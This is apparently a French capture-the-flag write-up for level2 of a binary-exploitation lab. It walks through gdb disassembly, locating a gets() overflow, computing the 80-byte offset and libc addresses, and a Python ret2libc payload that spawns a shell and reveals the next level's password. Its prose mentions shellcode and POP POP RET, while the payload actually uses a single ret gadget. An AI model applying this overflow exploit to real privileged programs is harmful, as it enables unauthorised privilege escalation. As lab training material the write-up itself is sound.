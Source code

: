 On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *p+30 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
> (gdb) x/10x $eax
0xbffff6bc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6cc:     0xb7fd0f00      0x08048550      0x08049828      0x00000001
0xbffff6dc:     0x08048381      0xb7fd13e4

> (gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff720
 Arglist at 0xbffff708, args:
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
 
> (gdb) p 0xbffff70c - 0xbffff6bc
$1 = 80

> p *system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
> OFFSET : 80
> SYSTEM: <code>0xb7e6b060</code>
> RET: <code>0x0804853e</code>
> EXIT: <code>0xb7e5ebe0</code>



Pour récupéré l'adresse de /bin/sh, on écrit un petit programme en C dans /tmp.

```bash
> touch /tmp/getsh.c
> echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELL\")); return 0; }" > /tmp/getsh.c
> cd /tmp
> gcc getsh.c
> ./a.out
SHELL= 0xbffff945
```

On change l'environement du shell pour passer sur /bin/sh car bash garde les privilèges de l'utilisateur qui l'invoque.
On execute ensuite le programme avec notre buffer overflow suivi d'une addresse de ret, d'une addresse système, de l'addresse d'un exit et de l'addresse du /bin/sh.
Si l'addresse est légèrement décaler (in/sh par exemple), il suffit de modifier légèrement l'addresse pour obtenir /bin/sh.

```bash
> SHELL=/bin/sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x45\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`E
sh: 1: in/sh: Permission denied
^C`
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x43\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`C`
cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```